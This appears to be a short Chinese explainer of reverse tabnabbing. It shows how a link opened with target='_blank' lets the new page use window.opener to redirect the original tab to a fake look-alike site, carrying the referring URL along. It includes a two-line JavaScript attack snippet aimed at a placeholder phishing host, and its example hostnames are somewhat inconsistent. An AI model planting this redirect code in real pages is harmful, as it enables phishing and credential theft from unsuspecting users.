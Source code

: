 
在你的网站 https://a.com 上存在一个链接：
 ```html
<a href="https://b.com" target="_blank">进入一个“邪恶”的网站</a>
```

用户点击了这个链接，在新的标签页打开了这个网站。  
这个网站可以通过 HTTP Header 中的 Referer 属性来判断用户的来源。  
并且，这个网站上包含着类似于这样的 JavaScript 代码：
```js
const url = encodeURIComponent('{{header.referer}}');
window.opener.location.replace('https://a.fake.site/?' + url);
```

此时，用户在继续浏览这个新的标签页，而原来的网站所在的标签页此时已经被导航到了 https://a.fake.site/?https%3A%2F%2Fexample.com%2F。  


恶意网站 https://a.fake.site 根据 Query String 来伪造一个足以欺骗用户的页面，并展示出来（期间还可以做一次跳转，使得浏览器的地址栏更具有迷惑性）。  


用户关闭 https://an.evil.site 的标签页，回到原来的网站………………已经回不去了 
